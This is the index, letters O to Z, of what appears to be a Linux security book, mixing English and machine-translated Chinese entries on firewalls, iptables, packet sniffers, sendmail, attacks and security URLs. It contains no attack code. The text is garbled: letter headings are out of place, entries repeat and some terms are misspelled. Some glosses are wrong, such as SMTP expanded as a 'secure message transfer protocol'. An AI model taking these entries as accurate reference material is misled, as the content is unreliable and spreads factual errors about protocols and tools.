- Open System Interconnection model。*参见* OSI model
- openssl。*参见* SSH
- openssl。*参见* SSL, openssl
- Opera’s browser，107
- Orange Book
  - URL，603
- OSI (Open System Interconnection) model，187–190
  - 无连接与面向连接协议，189–190
  - Datalink layer，188
  - Network layer，189
  - Physical layer，188
  - Presentation layer，189
  - Session layer，189
  - Transport layer，189
- outgoing Destination Unreachable messages，331
- outgoing packets，filtering，230
  - local source address filtering，230
  - local source port filtering，231
- outgoing TCP connection-state filtering，232
  - remote destination address filtering，230–231
  - remote destination port filtering，231
- OUTPUT chain
  - mangle table，245
  - nat table，243
- overrun，buffer。*参见* buffer overflow
- owner filter table match extensions，260–261
- ownership policy，542

### P
- package
  - updates (*参见* updates)
- packet filtering。*参见* filtering
- packet fragmentation，567–584
- packet routing，201


- packet spoofing。*参见* spoofing, packet
- packet traversal
  - `IPFW`，237
  - `NAT`，244
  - `Netfilter`，238–239
- packets。*另参见* filtering
  - dropped packets，logging，333–335
  - incoming packets
    - `iptables`，242
    - limiting to selected remote sites，215
  - probes，217
  - scans，217–222
- `IPFW` packet traversal，237
- matching packets，242, 282
- multicast network packets，dropping，283
- multicast packets，283
- `NAT` packet traversal，244
  - rejecting versus denying，213
- pages。*参见* web pages
  - paging，automatic，358–363
- Palm Pilot，`ssh`，593
- `PAM` (Pluggable Authentication Modules)，22, 41–42
- Parameter Problem messages，331
- passive-mode `FTP` data channels，315–318
- password，21–22, 35–44
  - 明文，149
  - 在 `SNMP` 中，91
  - `CMOS`，115–116
  - critical，*who gets?*，46
  - `https`，32
  - initial，59
  - `lilo`，116–117
  - `MD5`，41–42
  - on command line，154
  - `popclient`，154
  - `popserver`，152
  - re-prompting for a，42–43
  - shadowed，36, 41–42
  - using for domain security，181
- patches。*参见* updates
- `PDC` (Primary Domain Controller)，165
- `PDP` 11/70，552
- penetration testing
  - `Hping2`，427
  - `Nessus`，428
  - `Nikto`，427–428
  - `Nmap`，426–427
- Pentium III serial number，574
- performance，`UDP` versus `TCP`，93
- `Perl`，tainted data feature，28
- personal use policy，527–528
- physical intrusions，113–118
- Physical layer (OSI model)，188
- `ping`，579
  - capturing with `TCPDump`，446
  - Echo Request and Echo Reply messages，332–334
  - ping flooding on incoming packets，224
  - ping messages，limiting，255
  - Ping of Death，224–225, 522–523, 570
  - using，506
- pipe symbol (|)，246
- Pluggable Authentication Modules。*参见* `PAM`
# 索引
## P
- 点对点隧道协议。参见 `PPTP`
- 警察，513–514, 517
- 策略
  - 默认策略
    - 定义，277
    - 包过滤防火墙，210–212
    - 规则，189
  - 默认拒绝所有策略，286
  - `FORWARD` 策略，277–278
- 策略，525–543
  - 处置，538–539
  - 电子邮件，530–531
  - 笔记本电脑，535–538
  - 所有权，542
  - Web 服务器，532–533
- `POP`（邮局协议），152, 299–300。另参见 `popclient`；`popserver`
  - 电子邮件
    - 接收，302
    - 发送，303
  - 用于远程客户端的 `POP` 服务器，306
  - `pop3s`（SSL 封装的 pop3），153
  - `popclient` 密码修复，154–156
  - `pops`，599
  - `popserver`，添加加密，152–154
- 色情内容
  - 策略，527–528
  - 存放库，139
- `portmap`，120–122
  - 支持 `TCP` Wrappers，93
- 端口模式（`FTP`），315
- 端口类型限定符（`TCPDump`），435
- 端口模式 `FTP` 数据通道，315–317
- 端口。另参见 `netstat`；服务
  - 攻击者，590
  - 存在不安全服务的，23
  - 正在使用的，列出，82, 84, 86–87
  - 监控，351–357, 368
  - 编号，285
  - 开放，23
  - 扫描
    - 相关问题，286
    - 响应，221–222
  - 服务端口，201–203
  - 非特权端口，202
  - 不必要的，23
- `ports` 程序
  - 使用，82
- `Portsentry`，351–357
- 邮局协议。参见 `POP`
- `postfix`，`sendmail` 的替代方案，123
  - 下载，600
- `PostgreSQL` 数据库，606
- 发布新闻（`Usenet`），308
- `postmaster`，向其报告事件，412
- `POSTROUTING` 链
  - `mangle` 表，245
  - `nat` 表，243
- 邮局协议。参见 `POP`
- `PPP`，141。另参见 `SSH`
- 现有规则
  - 移除，276–277
- `PREROUTING` 链
  - `mangle` 表，244
  - `nat` 表，243
- 表示层（OSI 模型），189
- 原子操作（`TCPDump`），437
- 打印服务，179
- 打印手册，383
- 优先级，32–34
- 私有网络服务，232–233
- 探测，217
- 问题报告策略，542
- 问题站点，阻止，215, 335–336
- 进程，正在运行的攻击者。参见 分析攻击者
- 进程
  - 程序
    - 查找攻击者的，466–467
    - 监控，378–381
- 产品更新。参见 更新
- 程序
  - 配置，28
  - 不安全的，28
  - 编写安全的，602
- 混杂模式，577–578, 579, 581
  - 检测，393–396
- 查找混杂进程，397–398
- 起诉，519–520
  - 准备，517–518
- 协议限定符（`TCPDump`），437
- 代理。参见 `Squid`
- `PSH` 标志，198
- `ps`，其中的特洛伊木马，415
- 公共网络服务，232–233
## Q
- 限定符（`TCPDump`）
  - 方向限定符，436–437
  - 原子操作，437
  - 协议限定符，437
  - 类型限定符，435–436
- 查询查找请求，291
- `QUEUE` 目标，242
- `QuickTime`，323–324
## R
- 非法地址，214–215
- 限制入站包，215
- 阻止问题站点，215
- 源地址欺骗，214–215
- 远程源端口过滤，217
- 移除现有规则，276–277
- 修复损害，479–500
- 报告事件
  - 优势，410
  - 拒绝服务攻击，411
  - 事件类型，411–412
  - 包含的信息，413–414
  - 在线资源，414
  - 向谁报告事件，412–413
- `Reaseau IP Europe`（`RIPE`），413
- 资源限制，528
- 资源，32–34
  - 邮件列表，586
  - 新组，589
  - URLs
    - 通用工具，601
    - 安全站点，590
    - 安全工具，592
    - 规范，603
  - 供应商（参见 更新，分发）
- 响应
  - 对入侵检测，407–409
  - 对端口扫描，221–222
- `RETURN` 目标，242
- `rexec`，94
- `RFC` 1094，`NFS`，603–604
- `RFC` 1813，`NFS` 版本，603–604
- `RIPE`（Reaseau IP Europe），413
- 安全之环，59
  - 缺失，565


## Ritz
- `Ritz`。参见 攻击者

## rlogin
- `rlogin`，94

## 机器人
- 机器人，垃圾邮件，欺骗，134

## root
- `root`，412
  - 禁用 FTP 访问，140

## root 密码
- `root` 密码。参见 密码，关键的，谁拥有？

## rootkit 检查器
- `rootkit` 检查器，参见 `Chkrootkit`

## 路由器
- 路由器
  - 边界路由，207
  - 与防火墙的比较，187
  - 源地址欺骗，282
  - 路由数据包，201

## rp 过滤器
- `rp` 过滤器，276

## RPM
- `RPM`
  - 检测入侵，494–496

## rsh
- `rsh`，94–95, 146–147
  - 检测问题，363–364

## RST 标志
- `RST` 标志，198

## RTSP
- `RTSP`（实时流协议），323

## S

### 传输速率
- 传输速率，141

### rcp
- `rcp`，94

### 重新提示输入密码
- 重新提示输入密码，42–43

### 阅读 Usenet 新闻
- 阅读 Usenet 新闻，308

### RealAudio
- `RealAudio`，323–324

### RealVideo
- `RealVideo`，323–324

### 最近的入侵
- 最近的入侵，567–584

### 接收电子邮件
- 接收电子邮件
  - `IMAP` 客户端，302–304
  - `POP` 客户端，303
  - `SMTP` 服务器，301–302, 304–306

### 恢复
- 恢复，465–477
  - 从入侵中，491–493

### Red Hat 7.3
- `Red Hat 7.3`，60–63
  - 加固，59, 60–63
  - 其中的混杂 bug，395
  - 更新和补丁。参见 更新，Red Hat

### REDIRECT
- `REDIRECT`，241

### 重定向消息
- 重定向消息，255, 275

### REDIRECT nat 表目标扩展
- `REDIRECT` `nat` 表目标扩展，267

### 引用 URL
- 引用 `URL`，其中的漏洞，32

### 入侵后重新获得控制权
- 入侵后重新获得控制权，465–477

### 注册
- 注册
  - `IP` 地址，284
  - 多播注册，283

### REJECT 目标
- `REJECT` 目标，242, 252

### 拒绝
- 拒绝
  - 数据包，213

### 中继
- 中继
  - 邮件，受控制的，133
  - `sendmail`，134–136
  - 垃圾邮件，133

### 通过外部网关 SMTP 服务器中继邮件
- 通过外部网关 `SMTP` 服务器中继邮件，300–301

### 远程客户端
- 远程客户端
  - `AUTH` 客户端，297
  - `DNS` 查找，293–295
  - 出站客户端访问远程 `FTP` 服务器
    - 通过控制通道的出站 `FTP` 请求，315
    - 被动模式 `FTP` 数据通道，315–317
    - 端口模式 `FTP` 数据通道，315

### 远程客户端
- 远程客户端
  - 电子邮件，306–307
  - 为其托管 `Usenet` `nest` 服务器，308–309
  - 远程站点访问，310
  - `SSH` 服务器访问，312–313

### 远程目标地址过滤
- 远程目标地址过滤，230–231

### 远程目标端口过滤
- 远程目标端口过滤，231

### 远程网络时间服务器
- 远程网络时间服务器，329–330

### 访问远程站点
- 访问远程站点，203–205, 310, 319–321

### 远程源地址过滤
- 远程源地址过滤，213

### 规则
- 规则
  - 阻止定向广播，283
  - 对其链命令，248
  - 默认策略，279
  - 包过滤规则，270–271

### 数据包
- 数据包
  - 禁止，282
  - 丢弃，283–284
  - 记录，282

### 现有规则
- 现有规则
  - 移除，276–277

### 规则检查
- 规则检查，绕过，279–281

### telnet 连接
- `telnet` 连接，259

### 正在运行的进程
- 正在运行的进程，攻击者。参见 分析攻击者程序

## T

### SAINT
- `SAINT`（网络安全审计器/扫描器），598

### Sam
- `Sam`，156–174
  - 绑定到哪个接口，66–67, 163

### samin 文件系统完整性检查器
- `samin` 文件系统完整性检查器，391

### SARA
- `SARA`（安全审计员研究助理），597

### SATAN
- `SATAN`（安全管理员网络分析工具），597

### Satan
- `Satan`。参见 Microsoft（开玩笑）

### 如何扫描问题
- 如何扫描问题，598

### 扫描器
- 扫描器
  - `ports` 程序，82
  - 扫描，382–402
  - 隐匿式，570–571

### 扫描
- 扫描
  - 入站数据包，217
  - 通用端口扫描，218
  - 响应端口扫描，221–222
  - 隐匿式扫描，218–220
  - 服务端口目标，219–220

### 屏幕锁定程序
- 屏幕锁定程序，破解，113

### 脚本
- 脚本
  - `shell` 启动，58

### 在线防御作战的次级启发式分析
- 在线防御作战的次级启发式分析。*参见* Shadow

### 秘密服务
- 秘密服务，515–516

### 安全 CGI
- 安全 `CGI`，602

### 安全，linux
- 安全，`linux`，33

### 安全消息传输协议
- 安全消息传输协议。*参见* `SMTP`

### 安全网络地址转换
- 安全网络地址转换。*参见* `SNAT`

### 编写安全程序
- 编写安全程序，602

### 安全 Shell
- 安全 Shell。*参见* `SSH`

### 安全套接层
- 安全套接层（`SSL`），320–321

### 系统安全
- 系统安全。*参见* 自适应防火墙；`PortSentry`；`Arpwatch`

### 安全
- 安全
  - 补丁（*参见* 更新）
  - 理解 Linux，12
  - 供应商，565–566
  - Windows，33–34, 565

### Security Focus
- `Security Focus`，590

### 安全工具
- 安全工具。*参见* 工具，安全

### Seifried, Kurt
- `Seifried, Kurt`，590

### 发送电子邮件
- 发送电子邮件，300
  - 作为 `SMTP` 客户端发送并作为 `IMAP` 客户端接收，303–304
  - 作为 `SMTP` 客户端发送并作为 `POP` 客户端接收，303
  - 作为 `SMTP` 客户端发送并作为 `SMTP` 服务器接收，304–305
  - 作为 `SMTP` 服务器发送并作为 `SMTP` 服务器接收，305–306

### sendmail
- `sendmail`（发送和接收所有电子邮件），101, 122–138。*另参见* 电子邮件；`postfix`
  - 8.12.4，101
  - 8.9.3（最低版本），101
  - 账户猜测，572–573
  - 额外安全措施，123–124
  - 替代方案，`postfix`，123
  - 阻止攻击，521–522
  - 阻止垃圾邮件，133–134
  - 中继，134–136
  - 抵抗，`DoS` 攻击，103–106
  - 安全性，124–125
  - 选项，129
  - 子进程过多，128
  - 更新（*参见* 更新，`sendmail`）
  - 漏洞
    - `EXPn`，128
    - 透露版本，128–129
    - 子进程过多，128
    - `VRFY`，127
    - 无 `root` 权限，600
    - 中继，133
  - `sendmail.com/`，102, 606
  - `sendmail.net/`，102, 606
  - `sendmail.org/`，102, 606

### Sentinel
- `Sentinel`（文件系统完整性检查器），392

### 序列号
- 序列号，`Pentium III`，574

### 服务器
- 服务器
  - `DNS`（*参见* `DNS`）
  - 邮件（*参见* `sendmail`）
  - Web（*参见* `Apache`）

### 服务端口目标
- 服务端口目标，219–220

### 服务端口
- 服务端口，201–203

### 服务
- 服务，201–203。*另参见* `netstat`；端口；`TCP`（传输控制协议）
  - `AUTH` 用户识别服务，296–298
  - 选择运行哪些服务，233
  - 列出正在运行的，82, 84, 86–87
  - 网络（参见 端口）
  - 基于网络的服务，201–203
  - 保护非安全的本地服务，233
  - 保护已分配的非特权端口上的服务，285–286
    - 本地 `TCP` 服务，286–288
    - 本地 `UDP` 服务，288–289
  - 公共与私有，232–233
  - 独立系统，109
  - `Usenet` 新闻服务
    - 托管新闻服务器，308–309
    - `NNTP`，307–308
    - 对等新闻源，309
    - 阅读和发布新闻，308

### 会话层
- 会话层（`OSI` 模型），189

### 设置
- 设置，58–60

### SHADOW
- `SHADOW`（在线防御作战的次级启发式分析），598

### 影子密码
- 影子密码，36

### shaft DDoS 程序
- `shaft` `DDoS` 程序，575

### shell 启动脚本
- `shell` 启动脚本，58

### 购物车漏洞
- 购物车漏洞，28, 30–31

### 签名
- 签名，攻击检测。参见 `Snort`

### 简单网络管理协议
- 简单网络管理协议。参见 `SNMP`

### 模拟器
- 模拟器
  - `CyberProtect`，612

### 单用户
- 单用户，密码。参见 `lilo`，密码

### Slackware
- `Slackware`，59
  - 更新和补丁（参见 更新，`Slackware`）

### smtp
- `smtp`，101

### 堆栈溢出
- 堆栈溢出。参见 缓冲区溢出

### SMB
- `SMB`，156

### SMTP
- `SMTP`（安全消息传输协议），299–300
  - 对话，使用 `TCPDump` 捕获，443–445
  - 电子邮件，300
  - 作为本地 `SMTP` 服务器接收，301–302
  - 通过外部网关 `SMTP` 服务器中继邮件，300–301
  - 作为 `SMTP` 客户端发送并作为 `IMAP` 客户端接收，303–304
  - 作为 `SMTP` 客户端发送并作为 `POP` 客户端接收，303
  - 作为 `SMTP` 客户端发送并作为 `SMTP` 服务器接收，304–305
  - 作为 `SMTP` 服务器发送并作为 `SMTP` 服务器接收，305–306


- 发送到任何外部邮件服务器，301
- `snurff` 攻击，333
- `SNAT`（源网络地址转换），241, 243–244
  - `nat` 表目标扩展，265–266
- 嗅探器，415, 429–431
  - `ARPWatch`，431, 458–460
  - 自动，60
  - `Crickct`，416
  - `Ethereal`，369–370
  - `MRTG`，416
  - `ntop`，416
  - 部署位置，417
  - `sniffi`，596
- `Snort`，416, 431, 453
  - 警报，457
  - 配置，454–456
  - 下载，453
  - 安装，453–454
  - `Swatch`，457
  - 测试，456–457
- 交换机/集线器，416–417
- `TCPDump`，372–375, 415–416, 431–432, 595
  - 异常数据包活动，446–447
  - 命令行选项，433–434
  - `DNS` 查询，捕获，445
  - 下载，432
  - 表达式，435–437
  - `FTP` 对话，捕获，445
  - `HTTP` 对话，捕获，439–444
  - `ICMP` 回声请求，捕获，446
  - 安装，432
  - `LAND` 攻击，450–451
  - 正常扫描（`nmap`）攻击，447–449
  - 使用其记录流量，451–453
  - `SMTP` 对话，捕获，443–445
  - `Smurf` 攻击，449
  - `SSH` 对话，捕获，445
  - 圣诞树攻击，450
- 嗅探
  - 网络，检测，396
  - `sniffit`，下载，596
  - `sniffit.rug.ac.be/~coder/sniffit/sniffit.html`，596
- `SNMP`（简单网络管理协议），91–92
- `Snort`（一种攻击签名检测器），416, 431, 453, 598
  - 警报，457
  - 配置，454–455
  - 下载，453
  - 安装，453–454
  - `Swatch`，457
  - 测试，456–457
- 软件更新。参见 更新
- 源地址

# 索引

## S

- `iptables`，272
- 欺骗（`spoofing`），214–215, 281–285
  - 回环地址，282
  - 路由器，282
- 源网络地址转换（Source Network Address Translation）。参见 `SNAT`
- 源站通告（Source Quench）消息，331
- 源路由数据包，229
- 垃圾邮件（`spam`），101, 177
  - 拦截，133–134
  - 对抗，103–106
  - 说明，131
  - 机器人，欺骗，134
- 欺骗（伪装）
  - 数据包，有限防御，92
  - 垃圾邮件机器人，134
- 源地址欺骗，214–215, 281–285
  - 回环地址，282
  - 路由器，282
- `Squid`，175–178
- `SSH`（Secure Shell），311–312, 593
  - 客户端访问远程 `SSH` 服务器，312–313
  - 会话，使用 `TCpDump` 捕获，445
  - 登录失败，监控，424–425
  - 邮件列表，589
  - 获取，593
  - 其他平台，593
  - 美国下载，593
  - 与 `TCP` `NFS` 一起使用，93
  - 封装 `UDP`，93
- `SSH` 封装的邮件服务，154
- `SSL`（Secure Socket Layer），320–321, 599
  - `Netscape` 中的漏洞，107
- `SSL` 封装的邮件服务，154
- `ss1proxy`，599
- `ss1wrap`，599
- `Stachedladrat`。参见 `Barbed Wire`
- 栈溢出。参见 缓冲区溢出
- 栈粉碎防御。参见 缓冲区溢出
- 启动时启动防火墙
  - `Debian`，338–339
  - `Red Hat` 和 `SUSE`，338
- 启动脚本，`Shell`，58
- 状态过滤表匹配扩展，256–260
- 有状态防火墙，207, 580
- 无状态防火墙，207
- 状态消息（`ICMP`），330–331
  - 目标不可达（Destination Unreachable），331
  - 回声请求（`echo-request`），275
  - 分片消息，331
  - 参数问题（Parameter Problem），331
  - 源站通告（Source Quench），331
  - 超时（Time Exceeded），331
- 隐蔽 `ps`，466
- 隐蔽扫描，279–280, 570–571
  - 检测，393
  - 查找进程，397–398
  - 入站数据包，过滤，220
- 隐蔽浏览。参见 `Squid`
- 隐蔽特洛伊木马，578–581
- “`UNIX` 或 `NT` 系统遭入侵后的恢复步骤”（论文），405
- `Stevens`，`Richard`，190
- 粘滞位（`sticky bit`），52–53
- 窃取数据，追踪，518–519
- 字符串。参见 分析破解程序
- 子网掩码，192
- 子网，190–193
- `sunsite`。参见 `ibiblio.org`
- 浏览，隐蔽。参见 `Squid`
- `SUSE`
  - 加固，59
  - `Linux`，338
- `SUSEauditsdk`（文件系统完整性检查器），387
- 可疑文件
  - 分析，384–385
  - 查找，383
- `Swatch`，423–425, 457
- 交换机，416–417
- 符号常量，274
- 符号链接攻击，107
- `SYN ACK`，223
- `SYN` 标志，198, 203–204, 223, 232
- `SYN` 数据包，351
- `SYSA` 管理员
  - 其他，511–512
  - 顽固型（Recalcitrant），564–565
- `syslog ()` 漏洞，584
- 系统，96
- 系统日志
  - 入侵检测，405–406
- 系统配置，58–60

## T

- `T1`，141
- 表
  - 过滤表，240–241, 245–246
    - `addrtype` 过滤表匹配扩展，263–264
    - `dstlimit` 过滤表匹配扩展，255–256
    - 过滤表目标扩展，251–252
    - `icmp` 过滤表匹配操作符，250–251
    - `iprange` 过滤表匹配，264
    - `iptables`，240, 242
  - `mangle` 表，241, 244–245
    - 命令，267
    - `mark mangle` 表目标扩展，267
  - `nat` 表，241–242
    - `BALANCE nat` 表目标扩展，267
    - `DNAT nat` 表目标扩展，266–267
    - `MASQUERADE nat` 表目标扩展，266
    - `REDIRECT nat` 表目标扩展，267
    - `SNAT nat` 表目标扩展，265–266
    - 服务协议表，289–290
  - 长度过滤表匹配，264
  - 限制过滤表匹配扩展，254–255
  - `mac` 过滤表匹配扩展，260
  - `mark` 过滤表匹配扩展，261
  - 匹配操作，248–249
  - 多部分过滤表匹配扩展，253–254
  - 针对整条链的操作，247
  - 针对规则的操作，248
  - 所有者过滤表匹配扩展，260–261
  - 状态过滤表匹配扩展，256–260
  - 目标扩展，252
  - `tcp` 过滤表匹配操作，250
  - `tos` 过滤表匹配扩展，261–262
  - `udp` 过滤表匹配操作，250
  - `ULOG` 表目标扩展，252–253
  - 未清理过滤表匹配扩展，262–263
- `Perl` 中的污染数据，28
- `talk`，96
- `tar`，检测入侵，491–494
- 目标扩展，240
  - 过滤表，251–252
  - `mangle` 表，267
  - `nat` 表
    - `BALANCE nat` 表目标扩展，267
    - `DNAT nat` 表目标扩展，266–267
    - `MASQUERADE nat` 表目标扩展，266
    - `REDIRECT nat` 表目标扩展，267
    - `SNAT nat` 表目标扩展，265–266
  - `ULOG` 表，252–253
- 针对性端口扫描，218–220
- 目标，服务端口，219–220
- `TCP`（传输控制协议），196–199, 298。另参见 电子邮件；欺骗；`TCPDump`；`Usenet` 新闻服务
  - 连接序列，198–199
  - `FTP`，313–314


- 入站访问 `FTP` 服务器，316–318
- 出站客户端访问远程 `FTP` 服务器，315–317
- 数据包过滤，315
- 端口模式，315
- `TFTP`，318
- 头部，196–198
- `iptables`，242
  - `LAND` 攻击，450–451
  - 服务协议表，289–290
  - `SSH`，311–313
  - 状态标志，279–280
  - 隐蔽扫描，279–280
  - `SYN` 洪水，222–223
  - `telnet`，309–311
  - 非特权端口，286–288
  - `Xmas Tree` 攻击，450
  - Web 服务，318
    - `HTTP`，319–321
    - `QuickTime`，323–324
    - `RealAudio`，323–324
    - `RealVideo`，323–324
    - `SSL`，320–321
    - `TLS`，320–321
    - Web 代理访问，321–322
    - `whois`，322–323
- 网站，连接，203–205
- `tcp` 过滤表匹配操作，250

### `TCP Wrappers`，109–112
- 与 `NFS` 结合使用，92
- 库（参见 `libwrap`）
- 日志，488
- 与 `TCP NFS` 结合使用，93

### `TCP/IP`（传输控制协议/互联网协议）
- `TCP/IP Illustrated`，第 1 卷，190
- `TCPDump`，415–416, 431–432
  - 异常数据包活动，446–447
  - 命令行选项，433–434
  - `DNS` 查询，捕获，445
  - 下载，432, 595
  - 表达式
    - 方向限定符，436–437
    - 协议限定符，435–436
    - 类型限定符，435–436
  - `FTP` 会话，捕获，445
  - `HTTP` 会话，捕获，439–444
  - `ICMP` 探测，捕获，446
  - 实现，579
  - 安装，432
  - `LAND` 攻击，450–451
  - 常规扫描（`nmap`）攻击，447–449
  - 录制流量，451–453
  - `SMTP` 会话，捕获，443–445
  - `Smurf` 攻击，449
  - `SSH` 会话，捕获，445
  - 使用，370–375
  - `Xmas Tree` 攻击，450

- `tcpread`，399
- `telnet`，138, 309–310
  - 检测问题，363–364
  - 入站访问本地服务器，311
  - 出站客户端访问远程站点，310
  - 规则，259
- 临时安全漏洞，58, 60
- `TEST-NET` 地址，215

### 测试
- 渗透测试
  - `Hping2`，427
  - `Nessus`，428
  - `Nikto`，427–428
  - `Nmap`，426–427
- `Snort`，456–457

- `TFN2000`（Tribe Flood Network 2000），579
  - `DDoS` 程序，575, 578
- `TFTP`（简单文件传输协议），95, 318
- 笔记本电脑失窃，535–538
- Thompson，Ken，38, 552, 556–557
- 三次 `TCP` ack。参见 三次 `TCP` 握手
- 三次 `TCP` 握手，351, 571
- 超时消息（Time Exceeded messages），331
- `TLS`（传输层安全协议），320–321
- 工具，安全，592
- 拓扑，网络，539–541

### `TOS`（类型服务）
- `iptables`，242
- `TOS` 位，262
- `TOS` 字段，245, 262
- `tos` 过滤表匹配扩展，261–262

- Toxen，Bob，551, 592
- `traceroute`，324–326
  - 使用，507
- 追踪窃取的数据，518–519
- 追踪 `tty` I/O。参见 `ttysnoop`
- 流量
  - 使用 `TCPDump` 录制，451–453
- 传输控制协议。参见 `TCP`
- 传输层（`OSI` 模型），189。另参见 `UDP`（用户数据报协议）；`TCP`（传输控制协议）
- 传输速率，141
- 传输层安全（`TLS`），320–321
- 捕获破解者。参见 自适应防火墙
- Tribe Flood Network。参见 `TFN2000`
  - `DDoS` 程序，575
- `Tripwire`，386–392, 489, 596。另参见 文件系统完整性检查器
  - 基线，59
  - 无法检测的内容，475
- 简单文件传输协议（`TFTP`），318
- 特洛伊木马，77, 489–500
  - `C` 编译器中（参见 `C` 编译器，其中的特洛伊木马）
  - `CD-ROM`，585
  - 查找，392, 491–493（另参见 文件系统完整性检查）
  - 隐蔽，578–581
  - 虚拟机，557–558
  - 穿透防火墙。参见 防火墙，穿透
- 双重 `NAT`，243
- 类型限定符（`TCPDump`），435–436

## `U`
- 美国下载，593
- 美国政府。参见 `CERT`；`CIA`；`DARPA`；`DISA`；`DOD`；`FBI`；劳伦斯伯克利实验室；海军；`NSA`；秘密服务
- `UDP`（用户数据报协议），91, 196, 324
  - 拒绝服务攻击，226

### `DHCP` 服务器
- 访问，326–329
- 消息类型，326–327
- 入站数据包洪水，225
- 数据包欺骗（参见 欺骗，数据包）
- 非特权端口保护，288–289
- 查询查找请求，291
- 远程网络时间服务器，访问，329–330
- 服务协议表，289–290
- `traceroute`，324–326

- `udp` 过滤表匹配操作，250
- `ULOG` 目标扩展，252–253
- 未清理过滤表匹配扩展，262–263
- 单播地址（`IP`），192
- 统一资源定位符。参见 `URLs`
- 加利福尼亚大学
- `UNIX` Review 杂志，551
- 非特权端口，202, 285–286
  - 本地 `TCP` 服务，286–288
  - 本地 `UDP` 服务，288–289
- `upDate`，97, 98
- 更新，425–426
  - Caldera，605
  - Debian，605
  - 发行版，100
  - Mandrake，605
  - Red Hat，97, 604

# 索引
- 更新，*(续)*
  - 安全，587
  - Slackware，604
  - SuSE，605
  - 供应商（参见更新，供应商）
  - Yellow Dog，605
- 上传，`FTP`，受控的，145
- `URG` 标志，198
- `URL` 漏洞，31
- `URL`。参见资源，`URL`；`www`
- Usenet 新闻。参见新闻
- Usenet 新闻服务
  - 新闻服务器，托管，308–309
  - `NNTP`，307–309
  - 对等新闻源，309
  - 阅读和发布新闻，308
- 用户账户，入侵检测，407
- 用户数据报协议。参见 `UDP`
- 用户错误，45–49
- 用户，添加。参见 `adduser`
- 实用工具更新。参见更新

### 格式内，584
- 表单内，28
- `FTP` 内，138–140
  - 上传，145
- `inetd` 内，96
- `IP` 表内，569
- 日志文件内，140, 143
- 微软代码内，33–40
- 挂载内，120, 554–556
- Netscape 内，107
- 网络接口绑定内，66–67
- `NFS` 内，92–93, 120
- 公开邮件列表内，136–137
- 数据包分片内，567–584
- 密码内，35–44
- 密码，命令行，154
- Pentium，序列号，574
- `portmap` 内，120
- 协议内，570
- `rsh` 和 `rexec` 内，148–149
- `rwalld` 内，89–90
- `sendmail` 内，122
  - 账户猜测，572–573
  - 别名文件，126–127
  - `DoS`，103–106
  - `EXPN`，128
  - 旧版本，101


# V

- 垃圾邮件，103–106
- 报告版本，128–129
- 子进程过多，128
- `VRFY`，127
- 购物车内，28, 30–31
- `SNMP` 内，91–92
- Netscape 中的 `SSL`，107
- `syslog()` 内，584
- `URL` 内，31
- Red Hat 混杂模式漏洞，395
- 虚拟机木马，557–558

## V

- 供应商安全，565–566
- 供应商更新。参见更新，供应商
- 版本，`sendmail` 报告，128–129
- 视频，`NSA`，613
- 视频，612–614
- 虚拟机，557–580
- 虚拟专用网络。参见 `VPN`
- 病毒
  - 理解，591
  - `VMS`，`ssh`，593
- `VPN`（虚拟专用网络），68
  - `NFS`，通过其运行，93
- `VRFY` 命令，禁用，93
- 漏洞
  - `FTP` 代理，145–146
  - 2.2 内核内，100
  - 2.4 内核内，100
  - 访问内，63
  - 缓冲区内（参见缓冲区溢出）
  - 电缆调制解调器内，571
  - `CGI` 内（参见 `CGI` 漏洞）
  - 数据库使用内，20, 21
  - 发行版内，匿名 `FTP`
    - 配置，141
  - `DNS` 内，150, 558–560
  - `echo` 内，95
  - `finger` 内，88–89
  - 防火墙内，67–80

# W

- Wanderer。参见机器人
- Wares。参见 `warez`
- `warez`（破解软件）
  - 其仓库，139
- Warfield, Mike，152, 588
- 网络爬虫。参见机器人
- 网页，监控，398–402
  - 用于涂改，398–402
- 网络代理。321–322。参见 `squid`。
- 网络服务器，允许远程访问，319–321。
  - *另见 Apache*
- 策略，532–533
- Web 服务，318
  - `HTTP`，319–321
  - QuickTime，323–324
  - RealAudio，323–324
  - RealVideo，323–324
  - `SSL`，320–321
  - `TLS`，320–321
  - 网络代理，321–322
  - `whois`，322–323
- 网站
  - 拒绝访问，335–336
  - 使用 `TCP` 连接访问，203–205
- `web.mit.edu/network/gpg.html`, 595
- Windows
  - 安全，33–34, 565
  - `ssh`，593
  - 使用 `Samba`，156–174
- `whois`，322–323
- 蠕虫
  - ILOVEYOU，535
  - 阻止，571–572
- `wpoison`，134
- `WU-FTPD`。参见 `FTP`，116
- `www-arc.com/saraf/`, 597
- `www.attrition.org/mirror/attrition/os.html`, 398
- `www.caldera.com/`, 605
- `www.cavu.com/sunset.html`, 507, 603
- `www.cert.org/`, 587, 589
- `www.coker.com.au/~russell/sendmail.html`, 600
- `www.debian.org/605`
- `www.disa.mil/infosec/dodfm2.html`, 612–614
- `www.fbi.gov/contact/fo/fo.htm`, 515
- `www.gnu.org/software/dd/`, 602
- `www.gnupg.org/`, 595
- `www.insecure.org/nmap/`, 597
- `www.iss.net/security_center/`, 588
- `www.lids.org/`, 594
- `www.linux-mandrake.com/`, 605
- `www.linuxdoc.org/`, 601
- `www.linustoday.com/`, 591
- `www.lwn.net/`, 591
- `www.mail-abuse.org/`, 133, 588
- `www.mindspring.com/~cavu/rwls/`, 593
- `www.nessus.org/597`
- `www.nsa.gov/selinux/`, 33
- `www.nswc.navy.mil/ISSEC/CID/`, 598
- `www.nwfusion.com/newsletters/sec/`, 589
- `www.openssh.com/`, 593
- `www.openssl.org/`, 599
- `www.pointman.org/PMFirewall/`, 599
- `www.postfix.org/`, 606
- `www.postgresql.org/`, 606
- `www.radius.nesc.mil/tecp/library/rainbow/ 5200.28-STD.html`, 603
- `www.realworldlinuxsecurity.com/593`
- `www.redhat.com/support/errata/`, 604
- `www.rick.com/sshpark/`, 599
- `www.robertgraham.com/pubs/firewall-seen.html`, 601
- `www.samspace.org/`, 601
- `www.sans.org/newlook/resources/glossary.htm`, 604
- `www.san.org/toptest.htm`, 591
- `www.securityfocus.com/`, 590
- `www.slackware.com/lists/`, 605
- `www.slackware.org/`, 605
- `www.snort.org/`, 598
- `www.squid-cache.org/`, 175
- `www.ssh.fi/`, 593
- `www.suse.de/security/index.html`, 605
- `www.tripwire.com/downloads/`, 388
- `www.wirex.com/subdomains.html`, 30
- `www.wsdi.com/saint/`, 598
- `www.yellowdoglinux.com/resources/`, 606

# X

- `X-Force`，588
- `X`
  - 屏幕锁定，113
- `xinetd`，110, 152, 173
  - 转换为，61
  - 木马，474–475
- 圣诞树攻击，450

# Y

- Yahoo，531
- Yellow Dog，更新和补丁。参见更新，Yellow Dog

# Z

- Zimmermann, Philip，594–595
- 区域传输，291


ISBN 0-536-21172-8
